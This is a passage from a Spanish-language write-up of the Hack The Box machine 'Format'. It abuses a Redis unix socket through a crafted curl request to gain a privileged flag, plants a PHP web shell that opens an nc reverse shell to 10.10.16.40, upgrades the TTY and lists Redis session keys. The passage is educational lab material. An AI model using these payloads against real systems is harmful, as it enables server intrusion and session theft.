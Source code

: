 ```null
```

Puedo conectarme al ```Unix Socket File``` mediante el método ```HSET``` para modificar el atributo y convertirme en usuario privilegiado

```null
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:rubbx%20pro%20true%20a/b
```

Al recargar, aparece una insignia en la parte superior derecha

<img src="/writeups/assets/img/Format-htb/7.png" alt="">

Intercepto de nuevo la petición al editar la web. En el parámetro ```id``` introduzco la ruta donde voy a depositar el contenido PHP para enviarme la reverse shell

```null
id=/var/www/microblog/rubbx/uploads/pwned.php&header=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.40+443+>/tmp/f")%3b+%3f>
```

Cargo la página a través de una petición por GET

```null
curl -s -X GET ```http://rubbx.microblog.htb/uploads/pwned.php```
```

Recibo la conexión en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.213] 42070
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@format:~/microblog/rubbx/uploads$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@format:~/microblog/rubbx/uploads$ export TERM=xterm
www-data@format:~/microblog/rubbx/uploads$ export SHELL=bash
www-data@format:~/microblog/rubbx/uploads$ stty rows 55 columns 209
```

Me conecto al servicio del ```redis``` y listo las ```KEYS```

```null
www-data@format:/tmp$ redis-cli -s /run/redis/redis.sock 
redis /run/redis/redis.sock> KEYS *
 1) "rubbx"
 2) "PHPREDIS_SESSION:admin"
 3) "PHPREDIS_SESSION:4djgijeqgnfeohsl2echr12g56"
 4) "cooper.dooper"
 5) "PHPREDIS_SESSION:u44up1ppmb76sdm93gqah49qhv"
 6) "PHPREDIS_SESSION:ddjirut3hkjs0n9m3ivveuhcn5"
 7) "PHPREDIS_SESSION:k2sgkup2l238ve7njekgtdoti3"
 8) "PHPREDIS_SESSION:jfbt3kj53f59hf2lfamb1gfgsg"
 9) "cooper.dooper:sites"
10) "PHPREDIS_SESSION:8f18kueulgjqjb9dbljbuaovpd"
11) "rubbx:sites"
12) "PHPREDIS_SESSION:2k9fth661f9141db3c969c1les"
13) "PHPREDIS_SESSION:ricua5lum706b03to5kt263mfj"
```
